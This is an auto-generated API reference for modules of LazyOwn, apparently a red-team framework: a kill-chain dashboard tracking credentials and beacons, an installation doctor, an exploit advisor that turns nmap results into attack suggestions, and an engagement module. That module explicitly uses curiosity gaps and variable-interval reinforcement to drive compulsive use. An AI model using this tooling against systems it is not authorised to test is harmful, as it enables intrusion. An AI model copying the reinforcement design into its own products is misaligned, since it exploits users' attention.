- `launch` (line 1064) `def launch(payload_path, sessions_dir)` - *Launch the dashboard and block until the user quits.

Args:
    payload_path: Path to payload.json.
    sessions_dir: Path to the sessions directory.*
- `_write_phase` (line 43) `def _write_phase(phase)`

**Methods:**
- `__init__` (line 100) `def __init__(self, command)`
- `__init__` (line 108) `def __init__(self, phase)`
- `get_selection` (line 335) `def get_selection(self, selection)` - *Override to prevent IndexError when selection offsets exceed text length.

Rich ``Text`` objects may produce ``Content`` whose plain-text length is
shorter than the character offsets derived by the framework, leading to
a crash in ``Selection.extract``. This override safely returns ``None``
when the selection is invalid.*
- `render_content` (line 348) `def render_content(self, payload, world)`
- `update_data` (line 374) `def update_data(self, payload, world)`
- `__init__` (line 393) `def __init__(self)`
- `update_data` (line 397) `def update_data(self, progress)` - *Render kill-chain progress. ``progress`` comes from KillChain.get_progress().*
- `on_click` (line 418) `def on_click(self, event)` - *Select the phase whose row was clicked.

Args:
    event: Textual click event carrying a widget-relative offset.*
- `update_data` (line 442) `def update_data(self, payload)`
- `update_data` (line 472) `def update_data(self, commands)`
- `update_data` (line 507) `def update_data(self, entries)` - *Render the most recent daemon decisions, newest first.*
- `update_data` (line 544) `def update_data(self, world, tasks, creds, hashes, beacons, cred_lines)`
- `__init__` (line 610) `def __init__(self)`
- `compose` (line 615) `def compose(self)`
- `update_data` (line 619) `def update_data(self, hints)` - *Replace the hint buttons with one button per suggestion.

Only buttons are recreated. The label is mounted once in
:meth:`compose` and reused, so a five-second refresh with no hints
cannot accumulate placeholder widgets. Buttons carry no id because
Textual removal is deferred: reusing ``hint-<name>`` ids would
collide with the previous, not-yet-removed button.

Args:
    hints: Suggested command names, best first.*
- `on_button_pressed` (line 644) `def on_button_pressed(self, event)` - *Run the clicked suggestion as if it had been typed.

Args:
    event: Button press event.*
- `update_data` (line 671) `def update_data(self, payload, sessions_dir, width)` - *Render the latest notifications for the active theme.

Args:
    payload: Loaded payload used to resolve the theme.
    sessions_dir: Sessions root holding the event files.
    width: Panel width. ``0`` lets the formatter auto-clamp.*
- `update_data` (line 718) `def update_data(self, recommendations)`
- `__init__` (line 807) `def __init__(self, payload_path, sessions_dir)`
- `_apply_layout` (line 819) `def _apply_layout(self, mode, hidden_fn)` - *Toggle compact CSS classes from a layout mode name.

Args:
    mode: One of wide, narrow or compact.
    hidden_fn: Callable mapping mode to hidden widget ids.*
- `compose` (line 836) `def compose(self)`
- `on_mount` (line 855) `def on_mount(self)`
- `on_input_submitted` (line 860) `def on_input_submitted(self, event)` - *Run the typed command and clear the input.

Args:
    event: Input submission event.*
- `on_command_requested` (line 872) `def on_command_requested(self, event)` - *Dispatch a command in a worker so the UI never blocks.

Args:
    event: Request posted by the input or a hint button.*
- `_execute` (line 881) `def _execute(self, command)` - *Run one command off the event loop and hand the result back.

Widgets may only be touched from the event loop, so the worker
performs the subprocess call and then marshals the result through
``call_from_thread``.

Args:
    command: Command line to run.*
- `_apply_command_result` (line 894) `def _apply_command_result(self, command, success, output)` - *Log a finished command and refresh the panels on the event loop.

Args:
    command: Command that was run.
    success: Whether the dispatcher reported success.
    output: Captured stdout, or stderr on failure.*
- `on_phase_selected` (line 912) `def on_phase_selected(self, event)` - *Filter the center panel to a phase chosen by clicking the kill chain.

Args:
    event: Phase selection posted by the kill-chain panel.*
- `action_refresh_data` (line 923) `def action_refresh_data(self)`
- `action_toggle_compact` (line 926) `def action_toggle_compact(self)` - *Toggle the compact single-column layout for narrow terminals.*
- `_raise_toast` (line 938) `def _raise_toast(self, message, severity, event_type)` - *Publish a dashboard event into the shared toast stream.

The cmd2 shell renders these on its next command, so both surfaces
stay in sync instead of the dashboard owning a private channel.

Args:
    message: Human-readable one-liner.
    severity: Theme severity key.
    event_type: Short label rendered before the message.*
- `action_screenshot` (line 956) `def action_screenshot(self)` - *Save an SVG screenshot next to the sessions directory.*
- `action_export_snapshot` (line 967) `def action_export_snapshot(self)` - *Export the current dashboard data as JSON for automation.*
- `action_next_phase` (line 987) `def action_next_phase(self)` - *Advance to the next kill-chain phase and refresh the display.*
- `action_prev_phase` (line 991) `def action_prev_phase(self)` - *Step back to the previous kill-chain phase.*
- `_cycle_phase` (line 995) `def _cycle_phase(self, direction)`
- `_do_refresh` (line 1011) `def _do_refresh(self)`
- `_filter_commands` (line 1048) `def _filter_commands(self, commands)` - *Keep only commands belonging to the phase selected by click.

Args:
    commands: Recent command entries from the transcript.

Returns:
    Entries matching the active phase, or all of them when no
    phase filter is active.*

#### `doctor.py`
**Path:** `cli/doctor.py`
**File Doc:** *Environment health check (preflight doctor) for the LazyOwn framework.  Complements the setup wizard. Where ``wizard`` / ``wizard --check`` validate the operator's *configuration* (the values in ``payload.json``), ``doctor`` validates the *installation* itself: the running Python version, whether the virtual environment is active, importability of the third-party packages that ``install.sh`` provisions, the presence of the C2 TLS certificates, the ``payload.json`` config file, the SecLists wordlists, and the external kill-chain tooling.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py`` (Dependency Inversion); the command surface depends on this module, never the reverse. - Pure check functions return :class:`CheckResult` objects and never print, so they are unit-testable without capturing stdout. Rendering is isolated in :func:`render_report`. - External-tool and SecLists detection is delegated to :mod:`cli.wizard` so the framework keeps a single source of truth for those checks (DRY). - System-touching dependencies (the package finder, the binary checker, the filesystem root) are injected so tests can stub them deterministically.*

**Classes:**
- `PackageSpec` (line 56) `class PackageSpec` - *Declarative description of a Python dependency the framework imports.

Attributes:
    import_name: Module name passed to the import machinery. Differs from
        the distribution name for several packages (``yaml`` vs ``pyyaml``,
        ``bs4`` vs ``beautifulsoup4``, ``Crypto`` vs ``pycryptodome``).
    pip_name: Distribution name shown in the remediation hint.
    purpose: One-line description of what breaks without the package.
    required: When ``True`` a missing package is a hard failure; when
        ``False`` it is advisory because only an optional feature degrades.*
- `CheckResult` (line 96) `class CheckResult` - *Outcome of a single preflight check.

Attributes:
    name: Short human-readable label for the check.
    status: One of :data:`STATUS_OK`, :data:`STATUS_WARN`, :data:`STATUS_FAIL`.
    detail: Description of what was found.
    hint: Optional remediation command shown when the check is not ``ok``.*
- `DoctorReport` (line 113) `class DoctorReport` - *Aggregated result of a full preflight run.*

**Functions:**
- `check_python_version` (line 143) `def check_python_version(version_info)` - *Verify the interpreter satisfies :data:`MIN_PYTHON_VERSION`.

Args:
    version_info: Two-or-more element sequence of ``(major, minor, ...)``.
        Injected so tests can assert both the satisfied and unsatisfied
        branches without spawning a second interpreter.

Returns:
    A :class:`CheckResult` flagged ``fail`` below the minimum version.*
- `check_virtualenv` (line 172) `def check_virtualenv()` - *Report whether the framework is running inside its virtual environment.

Args:
    prefix: Active interpreter prefix (``sys.prefix``).
    base_prefix: System interpreter prefix (``sys.base_prefix``). ``None``
        collapses to ``prefix`` for ancient interpreters.
    root: Repository root used to locate the ``env/`` directory.

Returns:
    ``ok`` when an isolated environment is active; ``warn`` otherwise so the
    operator is nudged to activate ``env/`` without blocking the session.*
- `check_packages` (line 209) `def check_packages(specs, finder)` - *Verify every dependency in ``specs`` is importable without importing it.

Uses :func:`importlib.util.find_spec` so the check stays side-effect free:
no third-party module is actually executed, mirroring the safety contract of
:func:`cli.wizard.check_binaries`.

Args:
    specs: Package specifications to verify.
    finder: ``find_spec``-compatible callable. Injected for tests.

Returns:
    One :class:`CheckResult` per spec, in input order.*
- `check_certificates` (line 248) `def check_certificates(root)` - *Verify the self-signed C2 certificate pair exists.

Args:
    root: Repository root containing ``cert.pem`` / ``key.pem``.

Returns:
    ``warn`` when either file is missing because the certificates are only
    needed once the C2 starts, not for CLI-only recon.*
- `check_payload` (line 269) `def check_payload(root)` - *Verify ``payload.json`` exists in the repository root.

Args:
    root: Repository root.

Returns:
    ``fail`` when absent because every component reads this single config
    source; the framework cannot run without it.*
- `check_seclists` (line 289) `def check_seclists(finder)` - *Verify a SecLists installation is discoverable on disk.

Args:
    finder: Callable returning the SecLists root or ``None``. Defaults to
        :func:`cli.wizard._find_seclists_root` so the candidate paths are
        defined once.

Returns:
    ``warn`` when not found because wordlist paths can be set manually.*
- `check_command_index` (line 313) `def check_command_index(root)`
- `check_external_tools` (line 343) `def check_external_tools(checker)` - *Adapt :func:`cli.wizard.check_binaries` into preflight check results.

Missing external tools are reported as ``warn`` rather than ``fail`` because
each tool only powers a subset of the kill-chain; recon can proceed while,
for example, ``evil-winrm`` is absent.

Args:
    checker: Callable returning :class:`cli.wizard.BinaryStatus` items.

Returns:
    One :class:`CheckResult` per external tool.*
- `gather_report` (line 368) `def gather_report(root)` - *Run every preflight check and collect the results without printing.

Args:
    root: Repository root used for file-presence checks.

Returns:
    A populated :class:`DoctorReport`.*
- `_status_cell` (line 398) `def _status_cell(status)`
- `render_report` (line 406) `def render_report(report, console)` - *Render a :class:`DoctorReport` as a rich table with a summary banner.

Args:
    report: The report to display.
    console: Optional rich console; a default highlight-free console is
        created when omitted.*
- `run` (line 451) `def run(root, console)` - *Gather and render the preflight report.

Args:
    root: Repository root. Defaults to the parent of this package.
    console: Optional rich console for rendering.

Returns:
    The :class:`DoctorReport` so callers can inspect the result
    programmatically (for example to choose a process exit code).*
- `fix_report` (line 468) `def fix_report(report)` - *Interactively offer to fix every failure and warning in the report.

For each non-ok check the operator is prompted (unless *auto_yes* is set)
whether to attempt automatic remediation.  After all fixes the report is
re-gathered and re-rendered so the operator sees the updated status.

Args:
    report: The pre-flight report to fix.
    root: Repository root for re-checking after fixes.
    console: Rich console for I/O.
    auto_yes: When ``True``, fix every check without prompting.

Returns:
    A fresh :class:`DoctorReport` after attempted fixes.*
- `_apply_fix` (line 525) `def _apply_fix(check, root, venv_pip, console)` - *Execute the remediation for a single check. Returns True on success.*

**Methods:**
- `failures` (line 119) `def failures(self)` - *Return the checks whose status is :data:`STATUS_FAIL`.*
- `warnings` (line 124) `def warnings(self)` - *Return the checks whose status is :data:`STATUS_WARN`.*
- `healthy` (line 129) `def healthy(self)` - *Return ``True`` when no check failed (warnings are tolerated).*
- `overall_status` (line 134) `def overall_status(self)` - *Return the worst status across every check.*

#### `engagement_hooks.py`
**Path:** `cli/engagement_hooks.py`
**File Doc:** *Curiosity-driven engagement engine for LazyOwn.  Two psychological mechanisms drive operator adoption:  1. Biological Curiosity (Loewenstein Information Gap Theory, 1994) Curiosity arises when we perceive a gap between what we know and what we want to know.  The engine surfaces ONE undiscovered command after each execution, chosen from the same kill-chain phase as the command just run. The gap is made explicit: "You haven't tried X — it does Y."  The operator knows something useful exists, doesn't know how it works, and is pulled to explore it.  Same suggestion never repeats in a session.  2. Variable Interval Reinforcement (Skinner, 1957) The most durable reinforcement schedule known to behavioural science. Rewards appear at unpredictable command counts (drawn from a geometric distribution with mean MEAN_INTERVAL).  Because the operator cannot predict WHEN the next reward arrives, the behaviour of "run another command" is maintained even in the absence of an immediate payoff.  Rewards are genuinely useful: streak acknowledgements, exploration milestones, hidden-feature reveals, phase-progression badges.  Architecture ------------ - Zero imports from lazyown.py, lazyc2.py, or Flask. - All I/O is wrapped in try/except; failure is always silent. - Output via rich.Console so ANSI is correct on every terminal. - State persisted to ``sessions/engagement_state.json`` (cross-session). - The caller (shell postcmd hook) passes a minimal context dict; this module never reads payload.json directly.*

**Classes:**
- `EngagementState` (line 242) `class EngagementState` - *Persisted cross-session engagement metrics.*

**Functions:**
- `_load_state` (line 260) `def _load_state()`
- `_save_state` (line 280) `def _save_state(state)`
- `_load_index` (line 290) `def _load_index()`
- `_normalize_command` (line 301) `def _normalize_command(cmd)` - *Return ``cmd`` with a single leading ``do_`` prefix.*
- `_is_recordable_command` (line 306) `def _is_recordable_command(cmd)` - *Return ``True`` when ``cmd`` is a syntactically valid command name.

The engagement telemetry must never score input-line noise: menu
selections (``1``), quoted script paths, mistyped emails, host names,
hyphenated or capitalised tokens, or empty input. This conservative
syntactic filter rejects all of those.

It deliberately does **not** consult the static command index: that index
can lag behind the live shell, so gating on it would silently drop real
commands. The authoritative membership test lives in the shell post-command
hook, which checks the token against the live registry via
``get_all_commands()`` before ever calling in. This function is the
module-level safety net for direct callers and historical sanitisation.

Args:
    cmd: Candidate command name, with or without the ``do_`` prefix.

Returns:
    ``True`` when ``cmd`` matches ``^do_[a-z][a-z0-9_]*$`` once normalised.*
- `_sanitize_seen` (line 332) `def _sanitize_seen(names, known)` - *Drop malformed entries left by the pre-gate telemetry bug.

Older state files accumulated tokens such as ``do_1``, ``do_./DEPLOY.sh``
and ``do_grisuno@gmail.com`` because every first input token was recorded.
This heals persisted state: an entry is kept only when it is syntactically
a command and, when an authoritative ``known`` roster is supplied, is a
member of it. Duplicates are collapsed preserving first-seen order.

Args:
    names: The persisted ``commands_seen`` list.
    known: Optional authoritative set of ``do_``-prefixed command names
        (typically the live shell's ``get_all_commands()``). When ``None``
        only the syntactic filter is applied so real-but-unindexed
        commands are never dropped.

Returns:
    A cleaned, de-duplicated list of command names.*
- `heal_commands_seen` (line 365) `def heal_commands_seen(known)` - *Purge non-command entries from persisted ``commands_seen`` in place.

Called once at shell startup with the live command roster so historical
pollution that survives the syntactic filter (real-looking but invalid
tokens such as ``do_against`` or ``do_como``) is removed against ground
truth. Idempotent: a clean state file is left untouched.

Args:
    known: Authoritative set of ``do_``-prefixed command names, typically
        ``{f"do_{c}" for c in shell.get_all_commands()}``.

Returns:
    The number of entries removed. Zero when nothing changed or on error.*
- `_next_threshold` (line 394) `def _next_threshold(current)` - *Draw the next reward trigger from a geometric distribution.*
- `_phase_for_cmd` (line 400) `def _phase_for_cmd(cmd, index)`
- `_commands_in_phase` (line 409) `def _commands_in_phase(phase, index)`
- `_summary_for_cmd` (line 414) `def _summary_for_cmd(cmd, index)`
- `_run_curiosity` (line 431) `def _run_curiosity(cmd, state, index)` - *Surface one undiscovered command from the same phase as ``cmd``.*
- `_render_streak` (line 459) `def _render_streak(ctx)` - *Render the streak reward; always succeeds (always renders).*
- `_render_exploration` (line 488) `def _render_exploration(ctx)` - *Render arsenal exploration progress bar.*
- `_render_phase_badge` (line 506) `def _render_phase_badge(ctx)` - *Render the current kill-chain phase badge; skips when phase unknown.*
- `_render_hidden_feature` (line 522) `def _render_hidden_feature(ctx)` - *Reveal one hidden CLI feature the operator hasn't seen recently.*
- `_render_arsenal_tip` (line 536) `def _render_arsenal_tip(ctx)` - *Render a single arsenal usage tip.*
- `_render_methodology_task` (line 544) `def _render_methodology_task(ctx)` - *Surface one open task that aligns with the current phase.

Reads ``sessions/tasks.json`` written by ``tasks add`` / ACI planner.
Returns False when no pending task exists so the VRI scheduler can pick
another reward instead of rendering an empty line.*
- `_render_methodology_objective` (line 583) `def _render_methodology_objective(ctx)` - *Surface one pending objective and a phase-appropriate next command.

Reads ``sessions/objectives.jsonl`` (auto-injected objectives from the
world model watcher).  Teaches methodology by pairing the objective text
with the canonical next command for its phase.*
- `_render_methodology_note` (line 630) `def _render_methodology_note(ctx)` - *Recall the latest operator note and suggest a methodology-aligned command.

Reads ``sessions/notes.jsonl`` written by the ``note`` command and pairs
the most-recent note with the canonical next command for its recorded
phase.  Teaches the operator to translate observations into actions.*
- `_fire_vri_reward` (line 672) `def _fire_vri_reward(state, ctx)` - *Pick one VRI reward and render it; retry on no-op rewards.

Methodology rewards may return False when their backing artefact is empty
(no pending tasks, objectives or notes).  The scheduler then samples a
different reward instead of printing an empty divider.  After at most
``_VRI_RETRY_LIMIT`` attempts the streak reward is forced as fallback so
the operator always sees something when the schedule fires.*
- `get_karma_name` (line 716) `def get_karma_name(elo)` - *Return karma rank for an ELO score.

Mirrors the bracket function ``get_karma_name`` in ``lazyc2.py`` so the
terminal and the C2 web UI display identical ranks for the same operator.

Args:
    elo: Non-negative integer score.

Returns:
    Human-facing karma label (``Noob`` … ``Godlike``).*
- `_award_elo` (line 734) `def _award_elo(cmd, first_time, new_phase, current_phase)` - *Compute the ELO delta for executing ``cmd``.

The reward is the sum of:
  * ``ELO_BASE`` for any command,
  * a high-value bonus when ``cmd`` is in ``ELO_HIGH_VALUE_CMDS``,
  * a phase bonus when ``current_phase`` is in ``ELO_PHASE_BONUS``,
  * ``ELO_FIRST_TIME_BONUS`` when the operator runs this command for the
    first time across all sessions,
  * ``ELO_NEW_PHASE_BONUS`` when the operator enters a phase for the
    first time across all sessions.

Returns:
    Positive integer ELO delta to add to the operator's score.*
- `_sync_user_elo` (line 760) `def _sync_user_elo(delta)` - *Patch ``users.json`` so the C2 dashboard reflects terminal activity.

Priority order for identifying the operator:
1. Logged-in CLI operator (via ``modules.cli_auth.get_current_operator``)
2. ``c2_user`` field from ``payload.json`` (legacy bridge)

Args:
    delta: ELO points to add (non-negative).

Returns:
    True when the user row was patched and persisted, False otherwise.*
- `_persist_notification` (line 828) `def _persist_notification(html)` - *Append a notification entry to ``sessions/notifications.json``.

The C2 dashboard polls this file to render the in-app notification feed,
so terminal-side rewards become visible in the web UI without any extra
plumbing.  Writes use a temp-file rename so a concurrent reader never
sees a half-written JSON document.  The file is capped at
``_NOTIFICATIONS_RING_SIZE`` entries to prevent unbounded growth.

Args:
    html: Sanitized HTML fragment to render inside the dashboard feed.

Returns:
    True on successful persistence, False on any IO or decoding error.*
- `_check_karma_up` (line 864) `def _check_karma_up(state)` - *Fire an out-of-band reward when ELO crosses a karma threshold.

Karma promotions never consume the VRI schedule so the operator gets a
clear signal that effort translated into rank, independent of the
variable reinforcement timer.

Returns:
    True when a promotion was rendered, False otherwise.*
- `render_engagement_hook` (line 898) `def render_engagement_hook(cmd, phase, enabled)` - *Post-command hook: curiosity reveal + ELO + VRI reward when due.

Args:
    cmd: The command name that just executed (e.g. "lazynmap").
    phase: Current engagement phase from world_model (e.g. "recon").
    enabled: When False this function is a no-op.  Controlled by
        ``enable_inline_hints`` in payload.json so the operator can
        silence all engagement output with one flag.

Returns:
    None — side effects are at most 2-3 lines written to stdout and one
    atomic patch each to ``sessions/engagement_state.json``,
    ``sessions/notifications.json`` and ``users.json``.*
- `get_state_snapshot` (line 978) `def get_state_snapshot()` - *Return a read-only snapshot of current engagement state for CLI display.

Used by ``do_karma`` in ``lazyown.py`` to print the operator's current
score without touching the on-disk state file.  When the state has not
been loaded yet (e.g. immediately after shell startup) this function
loads it lazily so the first call from ``karma`` returns real data.

Returns:
    Plain dict with keys ``elo``, ``karma_name``, ``commands_seen``,
    ``phases_entered``, ``total_commands``, ``session_commands``,
    ``session_start_ts``, ``elo_session_delta``, ``next_reward_at``,
    ``badges``.*
- `_check_badges` (line 1009) `def _check_badges(cmd, first_time)` - *Award operator badges for milestone achievements.

Badges are persistent across sessions and only awarded once.
This runs after every command, in-band with the engagement hook
so the operator sees the reward immediately.*
- `_print_badge` (line 1056) `def _print_badge(name, description)` - *Print an unlocked-badge banner to stdout.*
- `reset_session` (line 1066) `def reset_session()` - *Reset session counters without clearing cross-session progress.

Call this at shell startup so commands_seen accumulates across sessions
but session_commands restarts from 0.*

#### `exploit_advisor.py`
**Path:** `cli/exploit_advisor.py`
**File Doc:** *Exploit advisor: connects nmap scan results to exploit search and next-step commands.  Two responsibilities: 1. Parse nmap XML files and extract structured (port, service, version) tuples. 2. Map each service to the LazyOwn commands most likely to advance the engagement.  Pure module — no imports from lazyown.py or lazyc2.py.*

**Classes:**
- `ServiceInfo` (line 111) `class ServiceInfo` - *One open port with its service fingerprint.*
- `ExploitHit` (line 144) `class ExploitHit` - *One exploit result from any source.*
- `ServiceResult` (line 153) `class ServiceResult` - *Aggregated results for one service after exploit search.*

**Functions:**
- `parse_nmap_xml` (line 164) `def parse_nmap_xml(path)` - *Extract open services from a nmap XML file.

Args:
    path: Path to the .nmap.xml file.

Returns:
    List of ServiceInfo for every open TCP/UDP port found.*
- `find_nmap_xml` (line 203) `def find_nmap_xml(rhost, sessions_dir)` - *Return all nmap XML files for a given rhost, newest first.

Args:
    rhost: Target IP to filter on.
    sessions_dir: Path to the sessions directory.

Returns:
    Sorted list of paths (newest first).*
- `print_exploit_summary` (line 222) `def print_exploit_summary(results, rhost)` - *Print a rich summary table of exploit search results with next-step commands.

Args:
    results: List of ServiceResult (one per service searched).
    rhost: Target IP for display purposes.*
- `save_ss_results` (line 296) `def save_ss_results(results, rhost, sessions_dir)` - *Save exploit search results to sessions/ss_results_<rhost>.json.

Args:
    results: List of ServiceResult to persist.
    rhost: Target IP (used in filename).
    sessions_dir: Path to sessions directory.

Returns:
    Path to the written file.*
- `inject_exploit_tasks` (line 338) `def inject_exploit_tasks(results, rhost, tasks_path)` - *Append one task per service with significant exploit hits to tasks.json.

Args:
    results: Results from exploit search.
    rhost: Target IP for task context.
    tasks_path: Path to tasks.json.

Returns:
    Number of tasks created.*

**Methods:**
- `search_query` (line 122) `def search_query(self)` - *Best query string for searchsploit / NVD.*
- `display_name` (line 128) `def display_name(self)`
- `next_commands` (line 132) `def next_commands(self)` - *Return (command, reason) pairs recommended for this service.*

#### `exploration.py`
**Path:** `cli/exploration.py`
**File Doc:** *Exploration engine: trigger and OS aware addon/tool matching.  This module is the single source of truth for two new operator-facing features:  1. Filtering ``lazyaddons/*.yaml`` and ``tools/*.tool`` entries by the nmap services discovered in ``sessions/scan_*.nmap.xml`` and the victim platform recorded in ``payload.json`` (``os_id`` / ``platform``). 2. Computing an exploration coverage report consumed by the ``explore`` shell command, ``suggest_next``, and ``recommend_next``.  Design (SOLID):  - ``ExplorationConfig`` centralises every magic value (default paths, glob patterns, MITRE platform whitelist, OS aliases). - ``DiscoveredService``, ``AddonEntry``, ``ToolEntry`` are immutable value objects. - ``NmapXmlReader`` is the only piece that touches XML. - ``AddonCatalog`` and ``ToolCatalog`` each have one reason to change (their respective on-disk schema). - ``TriggerMatcher`` is a pure ranking primitive. - ``ExplorationEngine`` composes the pieces above and exposes the small public surface used by the CLI, MCP layer, and tests.  The module has zero coupling to ``cmd2``, ``flask``, ``rich`` or ``lazyown.py`` and every public method returns plain Python types so it can be reused inside the shell, the MCP server, or the Textual TUI without modification.*

**Classes:**
- `ExplorationConfig` (line 68) `class ExplorationConfig` - *Centralised constants for the exploration engine.

Every path, glob, default value and whitelist lives here so the
engine is fully data-driven and trivially testable.*
- `DiscoveredService` (line 87) `class DiscoveredService` - *A single open port discovered by nmap on a host.*
- `AddonEntry` (line 105) `class AddonEntry` - *A parsed lazyaddon YAML file with trigger/OS metadata.*
- `ToolEntry` (line 119) `class ToolEntry` - *A parsed ``.tool`` file from the ``tools/`` directory.*
- `CoverageReport` (line 132) `class CoverageReport` - *Aggregate exploration metrics for the active engagement.*
- `NmapXmlReader` (line 169) `class NmapXmlReader` - *Read discovered services from nmap XML files in ``sessions/``.

Falls back to the stdlib XML parser to avoid coupling to ``libnmap``
which is only an optional runtime dependency in tests.*
- `AddonCatalog` (line 252) `class AddonCatalog` - *Load every ``lazyaddons/*.yaml`` exposing ``os`` and ``trigger``.

Missing fields default to ``os: any`` and ``trigger: []`` so existing
addons continue to load without modification. Parsed entries are
cached per-process by ``(path, mtime)`` so repeated ``load()`` calls
inside long-lived sessions (CLI shell, MCP server) re-parse only the
YAML files that actually changed on disk.*
- `ToolCatalog` (line 333) `class ToolCatalog` - *Load every ``tools/*.tool`` exposing ``os`` and ``trigger``.

The ``.tool`` schema already carries a ``trigger`` list; this catalog
adds OS awareness with a ``any`` default so the legacy files keep
working. Parsed entries are cached per-process by ``(path, mtime)``
so repeated ``load()`` calls only re-parse changed files.*
- `TriggerMatcher` (line 410) `class TriggerMatcher` - *Match addons and tools against discovered services + current OS.*
- `HistoryReader` (line 470) `class HistoryReader` - *Read previously executed commands from the session CSV transcript.*
- `ExplorationEngine` (line 502) `class ExplorationEngine` - *Compose nmap + addons + tools + history into a coverage view.

This is the entry point used by ``do_explore``, ``do_suggest_next``
and ``do_recommend_next``. It does no I/O on its own — every read is
delegated to a single-responsibility collaborator.*

**Functions:**
- `resolve_current_os` (line 656) `def resolve_current_os(payload)` - *Resolve the current victim platform from a payload-like mapping.

The lookup honours both the explicit ``platform`` key (new) and the
legacy numeric ``os_id`` so existing payload.json files keep working.
Unknown or missing values fall back to :data:`ANY_OS`.*
- `normalise_os` (line 677) `def normalise_os(value, default)` - *Coerce arbitrary YAML/JSON values to a whitelisted OS string.*
- `normalise_trigger` (line 690) `def normalise_trigger(value)` - *Coerce arbitrary YAML/JSON values to a tuple of trigger strings.*

**Methods:**
- `label` (line 98) `def label(self)` - *Return a compact human-readable label such as ``smb:445/tcp``.*
- `service_coverage` (line 145) `def service_coverage(self)` - *Fraction of discovered services with at least one run command.*
- `addon_coverage` (line 153) `def addon_coverage(self)` - *Fraction of enabled addons that have been executed at least once.*
- `tool_coverage` (line 161) `def tool_coverage(self)` - *Fraction of active tools that have been executed at least once.*
- `__init__` (line 176) `def __init__(self, config)` - *Store the configuration used to locate the nmap XML directory.*
- `discover` (line 181) `def discover(self, target)` - *Return every open service across every nmap XML in sessions.

Args:
    target: Optional rhost filter. When provided, only files that
        contain the target in their filename are read.
Returns:
    A flat list of :class:`DiscoveredService` instances.*
- `_iter_xml_paths` (line 196) `def _iter_xml_paths(self, target)` - *Yield matching nmap XML paths, optionally filtered by target.*
- `_parse_one` (line 210) `def _parse_one(xml_path)` - *Parse a single nmap XML file. Tolerates malformed input.*
- `__init__` (line 264) `def __init__(self, config)` - *Store the configuration used to locate the addons directory.*
- `load` (line 269) `def load(self)` - *Return every parseable addon as an :class:`AddonEntry`.*
- `_load_with_cache` (line 282) `def _load_with_cache(self, path)` - *Return the cached entry when the file mtime is unchanged.*
- `clear_cache` (line 299) `def clear_cache(cls)` - *Drop the per-process addon cache (mainly used by tests).*
- `_parse_one` (line 304) `def _parse_one(self, path)` - *Parse a single addon file. Returns ``None`` on parse failure.*
- `__init__` (line 344) `def __init__(self, config)` - *Store the configuration used to locate the tools directory.*
- `load` (line 349) `def load(self)` - *Return every parseable ``.tool`` file as a :class:`ToolEntry`.*
- `_load_with_cache` (line 362) `def _load_with_cache(self, path)` - *Return the cached entry when the file mtime is unchanged.*
- `clear_cache` (line 379) `def clear_cache(cls)` - *Drop the per-process tool cache (mainly used by tests).*
- `_parse_one` (line 384) `def _parse_one(self, path)` - *Parse a single tool file. Returns ``None`` on parse failure.*
- `__init__` (line 413) `def __init__(self, current_os)` - *Store the platform used to filter incompatible entries.*
- `addons_for_service` (line 418) `def addons_for_service(self, service, addons)` - *Return addons whose trigger and OS match the given service.*
- `tools_for_service` (line 435) `def tools_for_service(self, service, tools)` - *Return active tools whose trigger and OS match the service.*
- `_os_compatible` (line 452) `def _os_compatible(self, candidate_os)` - *Return True when ``candidate_os`` is ``any`` or equals current OS.*
- `_trigger_matches` (line 460) `def _trigger_matches(trigger, service_name)` - *Return True when ``service_name`` is listed in trigger or wildcard.*
- `__init__` (line 473) `def __init__(self, config)` - *Store the configuration used to locate the transcript file.*
- `executed_commands` (line 478) `def executed_commands(self)` - *Return the set of unique tool/command names already run.*
- `__init__` (line 510) `def __init__(self, config, current_os)` - *Wire collaborators together using the supplied configuration.*
- `services` (line 525) `def services(self, target)` - *Return the discovered services for the engagement.*
- `addons` (line 530) `def addons(self)` - *Return the parsed lazyaddon catalogue.*
- `tools` (line 535) `def tools(self)` - *Return the parsed ``.tool`` catalogue.*
- `history` (line 540) `def history(self)` - *Return the set of already-executed command names.*
- `suggestions_for_target` (line 545) `def suggestions_for_target(self, target)` - *Group matching addons and tools by service for a target.

Returns:
    Mapping ``service.label -> {"addons": [...], "tools": [...]}``
    covering every open port in the latest scan for the target.*
- `unexplored_addons` (line 568) `def unexplored_addons(self, target)` - *Return addons triggered by the scan that have never been run.*
- `unexplored_tools` (line 589) `def unexplored_tools(self, target)` - *Return tools triggered by the scan that have never been run.*
- `coverage` (line 610) `def coverage(self, target)` - *Return an aggregate :class:`CoverageReport` for the engagement.*

#### `exploration_view.py`
**Path:** `cli/exploration_view.py`
**File Doc:** *Rich-based renderers for the exploration engine.  Keeps the rendering logic out of :mod:`cli.exploration` so the engine stays pure (no console / no terminal dependency) and trivially unit- testable. Every renderer here accepts plain dataclasses from the engine and writes to a :class:`rich.console.Console` instance supplied by the caller, so the shell, the dashboard TUI and the tests can all share the same output without coupling.*

**Functions:**
- `render_exploration` (line 39) `def render_exploration(console, engine, target, history)` - *Render the full ``explore`` view to ``console``.

Args:
    console: Rich console used for output.
    engine: Pre-configured exploration engine to query.
    target: Optional rhost filter for the nmap scan lookup.
    history: Set of already executed command/tool/addon names.*
- `_render_header` (line 71) `def _render_header(console, target, coverage)` - *Render the heading panel summarising scope and coverage.*
- `_render_service_tree` (line 93) `def _render_service_tree(console, services, grouped, history)` - *Render the host -> service -> addons/tools tree.*
- `_render_entries` (line 140) `def _render_entries(parent, entries, history, style, kind)` - *Render a row per addon or tool under a service branch.*
- `_render_unexplored` (line 161) `def _render_unexplored(console, unexplored_addons, unexplored_tools)` - *Render the 'try these next' section for the active scan.*
- `_render_coverage_table` (line 196) `def _render_coverage_table(console, coverage)` - *Render a coverage percentage summary table.*

#### `fuzzy_match.py`
**Path:** `cli/fuzzy_match.py`
**File Doc:** *Non-interactive fuzzy matching reusing the picker's scorer.  The curses dropdown in :mod:`cli.fuzzy_picker` already ranks candidates with :class:`MatchScorer`. Typo correction (did you mean) and headless suggestion need the same ranking without a terminal UI. This module is the thin pure adapter: build picker items, rank, return names.*

**Classes:**
- `FuzzyMatchConfig` (line 18) `class FuzzyMatchConfig` - *Centralized knobs for fuzzy suggestion.*

**Functions:**
- `suggest` (line 28) `def suggest(query, candidates, limit, config)` - *Return up to limit candidate names ranked by relevance to query.

Args:
    query: Raw operator input, possibly a typo or prefix fragment.
    candidates: Command or phase names to rank.
    limit: Maximum names returned.
    config: Picker scoring constants. Defaults to PickerConfig().

Returns:
    Ranked names, strongest first. Empty when nothing scores above zero.*
